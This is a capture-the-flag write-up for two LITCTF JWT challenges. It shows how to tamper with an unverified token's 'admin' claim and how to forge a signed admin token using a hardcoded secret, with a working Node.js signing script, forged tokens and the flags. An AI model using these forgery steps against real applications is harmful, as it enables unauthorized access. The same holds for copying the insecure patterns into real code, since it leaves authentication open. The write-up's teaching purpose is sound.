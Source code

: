 ```yaml
---
title: JWT ( Both Parts )
date : 2024-08-13 10:00:00 +0530
categories: [litctf]
tags: [litctf, ctf]
description: jwt-1, jwt-2
---
```


> I will be writing the solution for jwt-1 and jwt-2 in the same post because the solution is the similar.
{: .prompt-info}

## Description

**jwt-1**

I just made a website. Since cookies seem to be a thing of the old days, I updated my authentication! With these modern web technologies, I will never have to deal with sessions again.

Come try it out at http://litctf.org:31781/.

**jwt-2**

its like jwt-1 but this one is harder URL: http://litctf.org:31777/

## JWT-1

The website is a simple login page. After registering we can login and jwt token is generated.

We have to visit `/flag` to get the flag. But it will show you unauthorized if you do not have the permission.

### JWT Token

Lets examine the JWT token.

A JWT token is split into 3 parts using the `.` character. The first part is the header, the second part is the payload, and the third part is the signature. The token is base64 encoded.

![jwt](/assets/posts/LITCTF/jwt-structure.webp)

I use [jwt.io](https://jwt.io/) to decode the token.

This is the payload of the given token.

```json
{
  "name": "cookie",
  "admin": false
}
```

The `admin` field is set to `false`. We need to change it to `true`.

So that is exactly what I did. I changed the `admin` field to `true` and the website gave me the updated token.

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOmZhbHNlfQ.fqrKVonVIm88m4vn4Ob0ZQ8LfcEXRnKs6Omj+ELYoWg`

Using devtools I updated the token and visited `/flag` to get the flag.

![flag](/assets/posts/LITCTF/jwt1.png)

We got the flag because the signature is not verified. The signature is used to verify the integrity of the token.

> `Flag: LITCTF{o0ps_forg0r_To_v3rify_1re4DV9}`

## JWT-2

In JWT we were given the source code of the website. I will highlight the interesting parts of the code below.

### Source Code Analysis

Cookie Generator

```ts
import crypto from "crypto";

const jwtSecret = "xook";
const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload: object) => {
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
    const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;
}
```

Cookie Signature Check

```ts
// verify signature
const expectedSignature = crypto.createHmac('sha256', jwtSecret).update(header + '.' + payload).digest('base64').replace(/=/g, '');
if (signature !== expectedSignature) {
    return res.status(403).send('Unauthorized ;)');
}
```

This time they did not forget to verify the signature. So we cannot change the payload directly without signing it using the secret key.

The problem was made very simple because the whole source code was provided.

### Token Manipulation

I usually use [`jwt_tool`](https://github.com/ticarpi/jwt_tool) for jwt token manipulation. But this time when I used it, the signed token was not accepted by the website. So I figured there was something different in their token generator.

So I used their own code to generate the token. ( I converted to js )

```js
const crypto = require('crypto');
const jwtSecret = "xook";

const jwtHeader = Buffer.from(
  JSON.stringify({ alg: "HS256", typ: "JWT" }),
  "utf-8"
)
  .toString("base64")
  .replace(/=/g, "");

const sign = (payload = { "name": "cookie", "admin": true }) => {  //PAYLOAD
  const jwtPayload = Buffer.from(JSON.stringify(payload), "utf-8")
    .toString("base64")
    .replace(/=/g, "");
  const signature = crypto.createHmac('sha256', jwtSecret).update(jwtHeader + '.' + jwtPayload).digest('base64').replace(/=/g, '');
  return jwtHeader + "." + jwtPayload + "." + signature;

}

console.log(sign()); //eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY
```

> `Flag: LITCTF{v3rifyed_thI3_Tlme_1re4DV9}`

### Why python didn't work?

Well the signature generated by the python tool was actually `better` but code which was used to generate the jwt was a lil different.

The tokens:-

```bash
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL__Judd6soWFx-YG52N2LJxVJkC5Y97lY  # python
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiY29va2llIiwiYWRtaW4iOnRydWV9.Pg3feBG3DxL//Judd6soWFx+YG52N2LJxVJkC5Y97lY  # js
```

The python code was generating the signature with `-` and `_`  and the js code was generating the signature with `+` and `/` So the signature was not matching.

What python was doing is producing the token with url-safe base64 encoding and js was using basic base64 encoding.

---

[back to index](/posts/LIT-Index/)